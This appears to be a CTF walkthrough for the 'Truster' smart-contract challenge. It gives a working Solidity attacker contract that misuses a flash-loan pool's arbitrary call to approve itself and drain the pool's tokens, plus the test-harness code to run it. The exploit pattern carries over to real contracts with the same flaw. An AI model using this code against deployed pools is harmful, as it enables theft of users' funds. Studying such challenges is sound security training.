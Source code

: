 # Truster

**HINT:** Look at the parameters and the arguments of the function ```flashLoan()``` 

<details>
<summary>Part 1</summary>
<p>

What this will do is use the token's function ```approve()``` as an argument. Which in turn, has the data payload of our contract that will approve it to withdraw the funds of the lender Pool
```
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/math/SafeMath.sol";

// Truster Lender Pool interface 
interface ITrusterLenderPool {
    function flashLoan(uint256 borrowAmount, address borrower, address target, bytes calldata data) external;
}

contract TrusterAttacker {
    using SafeMath for uint256;
    using Address for address payable;

    constructor() public {}
    
    // Uses IERC20's approve function passing in our contract address as an argument 
    // Then approves our contract to withdraw funds
    // Ends with transferFrom to withdraw to our attacker account
    function attack(IERC20 token, ITrusterLenderPool pool, address attackerEOA) public {
        uint256 poolBalance = token.balanceOf(address(pool));

        bytes memory approvePayload = abi.encodeWithSignature("approve(address,uint256)", address(this), poolBalance);
        pool.flashLoan(0, attackerEOA, address(token), approvePayload);
        
        token.transferFrom(address(pool), attackerEOA, poolBalance);
    }
}
```

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Now go to ```truster.challenge.js``` and at the top of the file add:
```js
const TrusterAttacker = contract.fromArtifact("TrusterAttacker");
```
And at ```Exploit``` add:
```js
this.attacker = await TrusterAttacker.new({ from: attacker });
await this.attacker.attack(this.token.address, this.pool.address, attacker);
```

```sh
npm run truster.challenge.js
```
</p>
</details>
